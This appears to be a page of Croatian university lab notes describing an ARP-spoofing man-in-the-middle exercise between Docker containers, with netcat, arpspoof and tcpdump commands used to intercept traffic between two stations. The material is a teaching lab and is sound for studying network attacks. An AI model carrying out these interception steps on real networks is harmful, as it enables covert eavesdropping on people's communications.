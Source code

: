 **Provjera informacija (IP adrese i adrese mrežnog uređaja)**

```powershell
$ ifconfig -a
```

- uz pomoć dobivenih informacija pratimo jesmo li uspješno izvršili napad

**Provjera nalazi li se station-2 na istoj mreži**

```powershell
$ ping station-2
```

**Pokretanje shella u drugom kontejneru**

```powershell
$ docker exec -it station-2 sh
```

**Ostvarivanje komunikacije između station-1 i station-2** 

```powershell
$ netcat -lp 9000
```

- za ovakav način komunikacije treba znati IP adresu i port

```powershell
$ netcat station-1 9000
```

**Pokretanje shella u trećem kontejneru (napadača)**

```powershell
$ docker exec -it evil-station sh
```

## Napad na žrtvu

**Pokretanje napada**

```powershell
$ arpspoof -t station-1 station-2
```

```powershell
$ tcpdump
```

- sada pratimo razgovor između station-1 i station-2 bez njihova znanja

**Završetak napada**

```powershell
$ echo 0 > /proc/sys/net/ipv4/ip_forward
```

## 2. laboratorijske vježbe

26.10.2021.
